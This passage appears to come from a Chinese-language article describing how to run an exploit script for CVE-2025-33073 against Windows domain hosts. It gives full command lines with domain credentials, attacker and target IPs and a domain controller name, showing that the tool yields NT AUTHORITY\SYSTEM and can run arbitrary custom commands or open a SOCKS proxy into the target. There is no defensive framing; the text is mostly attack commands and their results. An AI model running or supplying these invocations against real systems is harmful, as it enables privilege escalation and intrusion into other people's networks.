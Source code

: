  
直接在终端中完成整个流程，无需 GUI 窗口 。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpJa5e3SOA72kkWBVOCzlVGhegEczwYnJGZIFsfPPm1tpuwgr4sZmFvw/640?wx_fmt=other&from=appmsg "")  
  
自定义命令执行  
如需在获取 SYSTEM 权限后执行自定义命令，可添加   
--custom-command  
 参数：  

```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target CLIENT01.wintastic.local \
  --target-ip 192.168.178.65 \
  --cli-only \
  --custom-command &#34;whoami&#34;
  
```

  
输出会显示   
NT AUTHORITY\SYSTEM  
，并执行指定命令。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpWMicBO19LEBj5HUkDibMeSUjrtT8gZH6vCVV9cqTUlqvouTr7VRb5kow/640?wx_fmt=other&from=appmsg "")  
  
SOCKS 代理模式  
在目标与自己 IP 相同时（  
--target  
 与   
--target-ip  
 相同），可启动 SOCKS 代理：  

```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target 192.168.178.65 \
  --target-ip 192.168.178.65 \
  --cli-only \
  --socks
  
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpfeYgg75tfiasvnibZJ8FAkhrzn96iamrCqC4kZbMeeMf2Ouw7SE9npviag/640?wx_fmt=other&from=appmsg "")  
  